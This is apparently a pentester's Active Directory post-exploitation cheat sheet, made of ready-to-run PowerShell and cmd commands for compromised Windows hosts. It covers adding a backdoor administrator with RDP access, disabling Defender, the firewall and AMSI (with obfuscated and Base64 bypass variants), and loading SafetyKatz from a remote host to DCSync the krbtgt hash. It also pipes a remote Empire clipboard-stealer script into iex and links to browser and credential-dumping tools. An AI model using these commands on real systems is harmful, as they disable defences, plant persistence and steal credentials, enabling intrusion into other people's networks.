 ```yaml
---
description: Active Directory Post Exploitation Checklists
---
```


# Post Exploitation

### Add Local Administrator

Add user **asuka** and add to RDP Users

{% code overflow="wrap" %}
```powershell
net user asuka 'TrYh@rdeR!' /add
net localgroup "Remote Desktop Users" asuka /add
net localgroup "Administrators" asuka /add

# Then access with xfreerdp
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:support.htb \
/u:asuka /p:'TrYh@rdeR!' +nego
# or using rdesktop
rdesktop support.htb
```
{% endcode %}

### Enable RDP Access

{% code overflow="wrap" %}
```powershell
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -
name "fDenyTSConnections" -value 0
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"

# In case powershell is not enabled (like in old machine)
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```
{% endcode %}

### Disable Defender Feature

{% code overflow="wrap" %}
```powershell
Get-MpComputerStatus
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
Set-MpPreference -ExclusionExtension "ps1"
Set-MPPreference -DisableBehaviorMonitoring $true

# Disable AMSI (set to 0 to enable)
Set-MpPreference -DisableScriptScanning 1 

# Add folder exclusion (in case tamper protection is enabled)
Add-MpPreference -ExclusionPath C:\Mimikatz\
# Check all exclusion folder
Get-MpPreference | Select-Object -Property ExclusionPath -ExpandProperty ExclusionPath

# Disable Real Time Protection
reg delete "HKLM\Software\Policies\Microsoft\Windows Defender" /f
reg add "HKLM\Software\Policies\Microsoft\Windows Defender" /v "DisableAntiSpyware" /t REG_DWORD /d "1" /f
reg add "HKLM\Software\Policies\Microsoft\Windows Defender" /v "DisableAntiVirus" /t REG_DWORD /d "1" /f
```
{% endcode %}

### Bypassing PowerShell Security

Using InviShell - https://github.com/OmerYa/Invisi-Shell

{% code overflow="wrap" %}
```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```
{% endcode %}

### AMSI Bypass

Detection: [https://github.com/RythmStick/AMSITrigger](https://github.com/RythmStick/AMSITrigger)

{% tabs %}
{% tab title="2023" %}
{% code overflow="wrap" %}
```powershell
$a='si';$b='Am';$Ref=[Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils'-f $b,$a)); $z=$Ref.GetField(('am{0}InitFailed'-f$a),'NonPublic,Static');$z.SetValue($null,$true)
```
{% endcode %}
{% endtab %}

{% tab title="CRTP" %}
{% code overflow="wrap" %}
```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
{% endcode %}
{% endtab %}

{% tab title="Base64" %}
{% code overflow="wrap" %}
```powershell
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
```
{% endcode %}
{% endtab %}
{% endtabs %}

### OPSEC with Loader

{% code overflow="wrap" %}
```powershell
C:\AD\Tools\Loader.exe -path http://172.16.100.67/SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```
{% endcode %}

### Turn Off Firewall

{% code overflow="wrap" %}
```powershell
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
# or
netsh advfirewall set allprofiles state off
```
{% endcode %}

### Get-ClipboardContents

Monitors the clipboard on a specified interval for changes to copied text.

{% code overflow="wrap" %}
```powershell
iex (iwr -usebasicparsing https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/collection/Get-ClipboardContents.ps1);Get-ClipboardContents
```
{% endcode %}

### WADComs

WADComs is an interactive cheat sheet, containing a curated list of offensive security tools and their respective commands, to be used against Windows/AD environments.

* [https://wadcoms.github.io/](https://wadcoms.github.io/)

### Dump Saved Password

* [BrowserStealer](https://github.com/SaulBerrenson/BrowserStealer)
* [LaZagne](https://github.com/AlessandroZ/LaZagne)
* Mimikatz

### TCP Port Scanner

{% code overflow="wrap" %}
```powershell
1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("172.16.8.1",$_)) "Port $_ is open!"} 2>$null # powershell
```
{% endcode %}

### Ping Sweep

{% code overflow="wrap" %}
```powershell
for /l %i in (1,1,254) do @ping -n 1 -w 100 172.16.8.%i > nul && echo 172.16.8.%i is up. # cmd
```
{% endcode %}

### Inveigh

Responder, but in Powershell/C#

* [https://github.com/Kevin-Robertson/Inveigh](https://github.com/Kevin-Robertson/Inveigh)

### MDE Enum

How to extract Windows Defender Exclusions and Attack Surface Reduction (ASR) rules without Admin privileges

* [https://github.com/0xsp-SRD/MDE\_Enum](https://github.com/0xsp-SRD/MDE\_Enum)

{% code overflow="wrap" %}
```bash
# local
mde-enum.exe /local /paths /access

# remote
mde-enum.exe <ip> <username> <password> <domain> /paths
# i.e
.\mde-enum.exe 172.16.8.148 asuka Asuka@1337 child.zerobyte.lab /paths
```
{% endcode %}

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEg-s8CjvYH04yAIm9dffLa8xRTnARSQR9gd8WKp6fZxTrQEMkCc-NAlewZB_1H5nAQzO4zxKf1FUQTfKLGKoTfTSIs6L3FmkbbMoXZggddyNVk5SlYwrqshBUKujEWox-CIOs25DspgkCVe9FQwcN8owuUqLZfh1JMlr0b3qawe1JMJMkyYbO_58cnPRX8/s872/mde-enum.png" alt=""><figcaption><p>MDE Enum</p></figcaption></figure>

Or, use this Powershell script.

```powershell
$logName = "Microsoft-Windows-Windows Defender/Operational"
$eventID = 5007
$events = Get-WinEvent -LogName $logName | Where-Object { $_.Id -eq $eventID }
$exclusionEvents = $events | Where-Object { $_.Message -match "Exclusions" }
$pattern = "HKLM\\SOFTWARE\\Microsoft\\Windows Defender\\Exclusions\\Paths\\[^\s]+"
$exclusionEvents | ForEach-Object {
    if ($_.Message -match $pattern) {
        $matches[0]
    }
}
```

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEizy7s-PGsq5vpXfy6QMsH7TTl3qm5lWLyL8oNYRVVa3vIjHK4EAg3gKIszCqdCjjm-LRAGNGmfpWkBvpRAg8MwWaL2J-2XKo6HdmwJpynygsbkUXmyg0M3ikgGyt5Hq1gga3GQA04CDqoMqRW6NZuFWP-D2rTnHrIrZNuszuphAH56xwx2x1XJtpGkaBw/s742/mde-enum-powershell.png" alt=""><figcaption><p>Enumerate Defender Exclusions</p></figcaption></figure>

Reference:

* [https://x.com/VakninHai/status/1796628601535652289](https://x.com/VakninHai/status/1796628601535652289)

### Other Useful Stuff

* [https://github.com/r3motecontrol/Ghostpack-CompiledBinaries](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)
* [https://github.com/Flangvik/SharpCollection](https://github.com/Flangvik/SharpCollection)

